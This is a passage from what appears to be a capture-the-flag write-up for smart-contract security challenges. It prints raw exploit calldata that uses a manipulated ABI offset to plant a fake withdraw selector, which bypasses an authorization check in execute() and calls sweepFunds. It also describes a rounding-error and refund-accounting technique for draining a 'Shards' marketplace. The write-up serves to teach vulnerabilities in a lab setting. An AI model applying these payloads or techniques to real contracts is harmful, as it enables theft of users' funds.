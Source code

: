 ```
00000000000000000000000044e97af4418b7a17aabd8090bea0a471a366305c // recipient address
0000000000000000000000000000000000000000000000000de0b6b3a7640000 // amount
00000000000000000000000000000000000000000000000000000000 // additional 28 zero bytes
```

exploit actionData: 
```
0x
85fb709d // sweeepFunds.selector
00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea // receiver address
0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b // token address
```

exploit calldata:
- By setting `offset = 100` (i.e., `0x64`), we control where `actionData` actually begins in calldata.
- This allows us to inject a fake selector (e.g., `withdraw.selector`) at `offset 4 + 32 * 3 = 0x64`, which is the hardcoded location that `execute()` uses for authorization checks, and it’s ignored during decoding and execution.
```
0x
1cff79cd // selector
0000000000000000000000001240fa2a84dd9157a0e76b5cfe98b1d52268b264 // address
0000000000000000000000000000000000000000000000000000000000000064 // actionData offset: 100
0000000000000000000000000000000000000000000000000000000000000000 // meaningless padding
d9caed12 // withdraw.selector
0000000000000000000000000000000000000000000000000000000000000044 // actionData length
85fb709d // sweepFunds.selector
00000000000000000000000073030b99950fb19c6a813465e58a0bca5487fbea // address(receiver)
0000000000000000000000008ad159a275aee56fb2334dbb69036e9c7bacee9b // address(token)
00000000000000000000000000000000000000000000000000000000 // padding to make everything 32-byte aligned (optional)
```

### Shards

Condition:
- Rescue as much `dvt` as possible from `marketplace` and transfer them to `recovery`

Key Concept:
- Rounding Error
- [ERC-1167: Minimal Proxy Contract](https://eips.ethereum.org/EIPS/eip-1167)

Solution:
- In `fill()`, there exists rounding issue while calculating amount needed to spend
    - `mulDivDown` rounds down to 0
    - With careful calculation, we can find that as long as `want <= 133`, we can purchase it without spending any token 
- In `cancel()`, there exists accounting error that buyers can get more repay than their spending on purchase
- With the above understanding, first we can leverage the rounding issue to get the inital funds, and then we can calculate `want` needed to  get the marketplace's remaining funds during `cancel()`, then calulate cost needed to purchase `want`
